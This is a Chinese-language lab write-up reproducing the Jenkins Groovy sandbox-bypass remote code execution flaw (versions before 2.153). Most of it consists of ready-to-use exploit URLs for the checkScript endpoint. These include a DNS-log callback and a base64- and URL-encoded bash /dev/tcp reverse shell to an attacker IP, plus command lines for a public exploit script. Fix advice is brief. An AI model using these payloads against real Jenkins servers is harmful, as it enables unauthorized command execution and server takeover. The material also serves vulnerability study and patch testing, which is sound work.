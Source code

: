 # 0x01 漏洞概述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。

其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

# 0x02 影响版本
Jenkins < 2.153 ，

Jenkins LTS < 2.138.3 

Jenkins <= 2.137 可以绕过权限校验直接进⾏利⽤

2.138 <= Jenkins < 2.153 就需要经过权限校验才能够进⾏利⽤

在 Jenkins 中如果没有开启 “匿名者具有可读权限” 的话，那么我们请求的路有会⾸先经过⽩名单校验，但是在 Jenkins 2.137 之前可以通过⼀些在⽩名单的前缀从⽽绕过权限校验。


# 0x03 环境搭建
靶机：http://192.168.210.164:8080/

攻击机：192.168.210.152

![image](https://user-images.githubusercontent.com/84888757/162634258-45f177f3-8f88-4cac-aa92-e9c8bc1c8dbe.png)


# 0x04 漏洞复现
## 4.1判断Jenkins版本信息
### 1、指纹识别插件判断版本信息

![image](https://user-images.githubusercontent.com/84888757/162634457-aecf862e-3135-44c0-8a3e-50eb46f2373b.png)

### 2、curl 判断版本信息
```curl -s -I http://192.168.210.164:8080/| grep X-Jenkins```

![image](https://user-images.githubusercontent.com/84888757/162634472-1554f3db-3c44-41ce-a602-1f9725101284.png)

## 4.2 手工测试
### 1、漏洞验证
目标机器出网情况下，使用dnslog平台进行漏洞验证
```
http://192.168.210.164:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true&value=public class x {public x(){"curl 2222.xxxx.ceye.io".execute()}}
```

![image](https://user-images.githubusercontent.com/84888757/162634527-c895a3b7-8080-4364-829e-592a9ebc793f.png)

如果机器不出网，则将命令改成`touch filename`一类的，然后手工探测是否成功创建文件。

### 2、反弹shell
原始语句
```
bash -i >&/dev/tcp/192.168.210.152/9988 0>&1
```

base64编码
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi85OTg4IDA+JjE=}|{base64,-d}|{bash,-i}
```

再进行一次url编码
```
bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJi9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi85OTg4IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

然后执行下述命令
```
http://x.x.x.x:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22命令替换%22.execute()}}
```

🌰 在本次复现实例中，命令如下：
```
http://192.168.210.164:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJi9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi85OTg4IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute()}}
```

如下出现空白页面说明执行成功：

![image](https://user-images.githubusercontent.com/84888757/162634606-415bbaee-b25f-4a17-bf02-c8cb6dd0b8a6.png)


这样即可获取到反弹的shell：

![image](https://user-images.githubusercontent.com/84888757/162634614-82c2812f-d3ee-4f00-a759-0190dd2bcb1d.png)


## 4.3 exp使用
- 🔗 [awesome-jenkins-rce-2019-exp](https://github.com/orangetw/awesome-jenkins-rce-2019)

### 1、dnslog验证漏洞
```
python2 exp.py http://192.168.210.164:8080/ 'curl 3333.xxxx.ceye.io'
```

![image](https://user-images.githubusercontent.com/84888757/162634671-8cb67add-5924-491e-99c8-790f45a16bd3.png)


### 2、反弹shell
原始语句
```
bash -i >&/dev/tcp/192.168.210.152/9988 0>&1
```

base64编码
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi85OTg4IDA+JjE=}|{base64,-d}|{bash,-i}
```

使用exp.py
```
python2 exp.py http://192.168.210.164:8080/ 'bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMjEwLjE1Mi85OTg4IDA+JjE=}|{base64,-d}|{bash,-i}'
```

![image](https://user-images.githubusercontent.com/84888757/162634714-48e54ee7-1a15-405c-b789-9bace4d5b423.png)


# 0x05 修复建议
1、升级到最新版

2、尽量不要开放到公网

# 0x06 参考链接
- https://www.cnblogs.com/cute-puli/p/15378440.html
- https://github.com/orangetw/awesome-jenkins-rce-2019


